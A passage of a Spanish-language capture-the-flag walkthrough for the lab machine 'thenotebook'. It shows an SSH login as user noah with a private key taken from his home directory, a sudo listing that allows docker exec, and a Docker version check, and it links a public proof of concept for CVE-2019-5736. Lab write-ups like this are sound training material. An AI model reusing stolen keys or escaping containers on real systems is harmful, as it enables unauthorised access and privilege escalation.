 Podemos ver que entre los archivos hay claves de SSH, vamos a usarlas para conectarnos al usuario noah.

```bash
www-data@thenotebook:/tmp$ chmod 600 home/noah/.ssh/id_rsa
www-data@thenotebook:/tmp$ ssh -i home/noah/.ssh/id_rsa noah@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:GHcgekaLnxmzAeBtBN8jWgd3DME3eniUb0l+PDmejDQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 16 11:06:59 UTC 2023

  System load:  0.08              Processes:              184
  Usage of /:   45.9% of 7.81GB   Users logged in:        0
  Memory usage: 18%               IP address for ens160:  10.10.10.230
  Swap usage:   0%                IP address for docker0: 172.17.0.1


137 packages can be updated.
75 updates are security updates.


Last login: Wed Feb 24 09:09:34 2021 from 10.10.14.5
noah@thenotebook:~$
```


### Privesc To Root

Si miramos los privilegios de sudo de noah podemos ver que tenemos los siguientes permisos.

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

La versión de docker es la siguiente:

```bash
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

Si miramos en google la versión podemos encontrar el siguiente CVE: https://github.com/Frichetten/CVE-2019-5736-PoC.
